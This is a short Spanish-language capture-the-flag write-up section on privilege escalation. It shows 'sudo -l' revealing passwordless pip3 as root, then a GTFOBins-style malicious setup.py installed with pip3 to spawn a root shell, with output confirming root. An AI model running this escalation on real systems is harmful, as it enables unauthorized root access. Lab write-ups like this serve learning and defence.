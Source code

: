 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
sudo -l
```

vemos aqui que podemos utilizar la heramienta pip3 con el privilegio del usuario root sin proporsionar contraseña.

Miramos en [GTFOBINS](https://gtfobins.github.io/gtfobins/pip/#sudo)

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip3 install $TF

whoami
#Output
root
```